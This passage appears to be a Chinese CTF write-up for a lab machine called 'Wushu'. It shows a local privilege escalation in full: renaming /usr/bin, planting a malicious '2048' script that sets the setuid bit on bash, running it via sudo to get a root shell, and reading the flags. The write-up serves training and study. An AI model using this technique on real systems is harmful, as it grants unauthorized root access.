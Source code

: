 由于拥有/usr目录的写权限，可以替换/usr/bin/2048文件来获取root权限：

1. 将/usr/bin目录重命名为/usr/1目录
2. 创建恶意的2048程序
3. 通过sudo执行获取root权限

## 执行提权

```bash
# 备份原始bin目录
caidao@Wushu:~$ mv /usr/bin/ /usr/1

# 创建新的bin目录
caidao@Wushu:~$ /usr/1/mkdir /usr/bin

# 创建恶意2048程序
caidao@Wushu:~$ /usr/1/nano /usr/bin/2048
caidao@Wushu:~$ /usr/1/chmod +x /usr/bin/2048
caidao@Wushu:~$ /usr/1/cat /usr/bin/2048
#!/usr/1/bash
/usr/1/chmod +s /usr/1/bash

# 执行sudo命令触发setuid
caidao@Wushu:~$ /usr/1/sudo /usr/bin/2048

# 验证bash获得setuid权限
caidao@Wushu:~$ /usr/1/ls -al /usr/1/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/1/bash

# 使用-p参数保持特权
caidao@Wushu:~$ /usr/1/bash -p
```

## 获取Flag

成功提权后，恢复系统并获取flag：

```bash
#恢复系统
bash-5.0# /usr/1/rm -rf /usr/bin/
bash-5.0# /usr/1/mv /usr/1/ /usr/bin/

# 获取flag
bash-5.0# id
uid=1000(caidao) gid=1000(caidao) euid=0(root) egid=0(root) groups=0(root),1000(caidao)
bash-5.0# cat /root/root.txt /home/caidao/user.txt 
flag{root-bcb44f5672d98ad8a966ed474335716d}
flag{user-4141b1d21f4cbcfcfe214d474e9fb6b2}
```

